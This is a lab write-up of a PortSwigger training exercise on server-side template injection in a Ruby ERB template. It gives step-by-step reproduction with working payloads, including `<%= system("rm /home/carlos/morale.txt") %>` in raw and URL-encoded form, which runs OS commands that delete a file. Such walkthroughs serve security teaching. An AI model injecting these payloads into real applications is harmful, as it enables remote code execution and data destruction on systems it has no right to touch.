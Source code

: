 # Basic server-side template injection

## Description

[This lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic) is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

## Reproduction and proof of concept

1. Notice that when you try to view more details about the first product, a GET request uses the message parameter to render "``Unfortunately this product is out of stock``" on the home page.
2. In the ERB documentation, discover that the syntax ``<%= someExpression %>`` is used to evaluate an expression and render the result on the page.
3. Use ERB template syntax to create a test payload containing a mathematical operation, for example:

```text
<%= 7*7 %>
```

4. URL-encode this payload and insert it as the value of the ``message`` parameter in the URL as follows, remembering to replace ``lab-id`` with your own lab ID:

```text
https://lab-id.web-security-academy.net/?message=<%25%3d+7*7+%25>
```

5. Load the URL in your browser. Notice that in place of the message, the result of your mathematical operation is rendered on the page, in this case, the number 49. This indicates that we may have a server-side template injection vulnerability.
6. From the Ruby documentation, discover the ``system()`` method, which can be used to execute arbitrary operating system commands.
7. Construct a payload to delete Carlos's file:

```text
<%= system("rm /home/carlos/morale.txt") %>
```

8. URL-encode the payload and insert it as the value of the message parameter, remembering to replace ``lab-id`` with your own lab ID:

```text
https://lab-id.web-security-academy.net/?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

## Exploitability

An attacker will need to review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.
